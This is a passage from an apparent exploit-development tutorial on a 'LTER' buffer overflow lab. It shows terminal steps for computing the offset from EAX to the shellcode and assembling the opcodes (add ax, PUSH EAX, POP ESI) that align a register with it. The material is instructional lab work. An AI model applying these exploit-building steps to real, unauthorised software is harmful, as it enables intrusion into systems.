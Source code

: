 ##### Once this is sent, it can be seen near the start of our buffer.

![](/assets/img/LTER/13.png)

##### The following step is to make EAX point to the shellcode, so it can be inserted in ESI later on.

##### Calculating the address of the start of the shellcode against the value of EAX.

```term
root@whitecr0wz:~/Exploit-Dev/LTER# hexcalc 0x0185F20C 0x0185ECA4 
0x568
root@whitecr0wz:~/Exploit-Dev/LTER# 
```

##### Getting the values for the calculation.

```term
nasm > add ax, 0x568  
00000000  66056805          add ax,0x568
nasm > 
```

##### The opcodes required for PUSH EAX, POP ESI.

```term
nasm > PUSH EAX 
00000000  50                push eax
nasm > POP ESI
00000000  5E                pop esi 
```
